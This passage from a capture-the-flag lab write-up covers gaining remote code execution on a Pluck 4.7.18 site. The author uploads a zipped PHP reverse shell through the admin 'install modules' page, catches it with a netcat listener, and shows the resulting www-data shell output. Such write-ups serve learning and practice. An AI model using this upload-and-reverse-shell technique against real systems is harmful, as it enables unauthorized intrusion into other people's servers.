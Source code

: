### RCE

As we now have the admin password we can log in to the Pluck website. We can see the version of Pluck at the bottom of the page again prompting us to do some research and see if there are any exploits related to the version 4.7.18. We find we can achieve Remote Code Execution by uploading a reverse PHP shell into the install modules function. We will go ahead and do it manually instead of using the script.

First, we will navigate to 


Install a module, which can be found under `options > manage modules`.

We can use the basic PHP shell from pentestmonkey and rename it to something shorter like `shell.php`. Make sure to open it and change the following attributes where prompted: your IP Address and the port number you want the reverse connection to be on.

```php
$ip = '<YOURIPADDRESS>';  // CHANGE THIS
$port = <PORT>;          // CHANGE THIS
```

If we try to upload the `shell.php` directly into the install modules page we are refused due to incorrect file type. Therefore, we will have to zip our shell first and then try re-uploading.

```bash
zip shell.zip shell.php
```

Before we upload the file we should set up our listener on Netcat using the port we specified in the `shell.php`.

```bash
nc -lvnp <PORT>
```

**Example Netcat Listener Output:**

```
nc -lvnp 1234
listening on [any] 1234 ...
connect to [10.10.16.2] from (UNKNOWN) [10.10.11.25] 41086
Linux greenhorn 5.15.0-113-generic #123-Ubuntu SMP Mon Jun 10 08:16:17 UTC 2024 x86_64 x86_64 x86_64 GNU/Linux
 11:00:30 up  2:11,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ 
```

Now we can proceed to upload the `shell.zip` and trigger it by navigating to `http://greenhorn.htb/data/modules/shell/shell.php` in our browser. We should see a response from our active listener.

To make the shell more interactive we can use the following script. The `script` command will create a new script session and run a new instance of `/bin/bash`. Essentially it will create a new pseudo-terminal (PTY) that will be more responsive and stable while also ensuring that any output of our terminal is discarded as we pass it to `/dev/null`. As we see in our execution of the command `id` below, we have opened a shell as `www-data`.
